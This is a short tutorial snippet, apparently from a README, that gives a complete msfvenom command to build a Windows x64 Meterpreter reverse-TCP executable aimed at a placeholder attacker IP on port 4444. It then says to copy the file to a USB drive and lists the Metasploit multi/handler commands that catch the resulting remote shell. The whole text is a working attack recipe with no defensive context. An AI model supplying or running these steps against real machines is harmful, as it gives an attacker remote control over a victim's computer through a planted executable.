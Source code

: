 In a terminal enter the following. Then, place the executable on a usb drive.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -a x64 -o /root/Desktop/<filename>.exe
```

### Within Metasploint set your options.
* Enter, use exploit/multi/handler

* Enter, set PAYLOAD windows/x64/meterpreter/reverse_tcp

* Enter, set LHOST <IP>

* Enter, set LPORT 4444

* Enter, run
